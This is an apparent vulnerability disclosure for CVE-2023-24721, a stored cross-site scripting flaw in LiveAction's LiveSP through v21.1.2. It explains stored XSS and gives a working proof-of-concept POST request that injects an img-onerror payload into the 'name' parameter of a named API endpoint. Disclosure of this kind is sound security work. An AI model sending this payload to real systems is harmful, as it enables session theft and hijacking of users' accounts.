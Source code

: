 ### [CVE-2023-24721 - Stored Cross-site Scripting (XSS) ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79:%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary JavaScript code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

Stored cross-site scripting (also known as second-order or persistent
XSS) arises when an application receives data from an untrusted source
and includes that data within its later HTTP responses in an unsafe way.
The attacker-supplied code can perform a wide variety of actions, such
as stealing victims' session tokens or login credentials, performing
arbitrary actions on their behalf, and logging their keystrokes.
Methods for introducing malicious content include any function where
request parameters or headers are processed and stored by the
application, and any out-of-band channel whereby data can be
introduced into the application's processing space (for example, email
messages sent over SMTP that are ultimately rendered within a web
mail application).

Stored cross-site scripting flaws are typically more serious than reflected
vulnerabilities because they do not require a separate delivery
mechanism in order to reach target users, and are not hindered by web
browsers' XSS filters. Depending on the affected page, ordinary users
may be exploited during normal use of the application. In some
situations this can be used to create web application worms that spread
exponentially and ultimately exploit all active users.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### Technical Details
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
JavaScript code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
X-Customer: [REDACTED]
Content-Type: application/json
Content-Length: 175
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><img src='x' onerror='alert(\"pwned\")'>","extraLabel":""},"type":"cluster","keyType":"cluster:applicationUser","children":{"neType:application":[]}}
```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 13:45:39 GMT
Content-Type: application/json
Content-Length: 902
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:[...]
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]
```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.

![xss](https://github.com/marcovntr/CVE/blob/main/2023/CVE-2023-24721/xss.png)

#### Reference
- https://nvd.nist.gov/vuln/detail/CVE-2023-24721
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721

